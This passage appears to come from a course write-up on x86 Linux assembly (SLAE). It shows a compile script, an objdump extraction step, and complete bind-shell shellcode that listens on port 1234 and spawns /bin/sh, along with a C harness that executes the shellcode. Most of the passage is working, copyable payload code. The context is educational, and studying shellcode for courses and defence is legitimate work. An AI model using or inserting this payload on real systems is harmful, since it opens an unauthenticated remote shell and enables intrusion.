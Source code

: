 ## Testing the Code


To make things easy a simple bash compile script is used for compiling and linking. 

```
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

```
absolomb@ubuntu:~/SLAE/assignments/1$ ./compile.sh bind_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

To extract our shellcode out we'll use `objdump`.

```
absolomb@ubuntu:~/SLAE/assignments/1$ for i in $(objdump -d bind_shell |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
```

Now we can use a simple C program to test out our shellcode.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
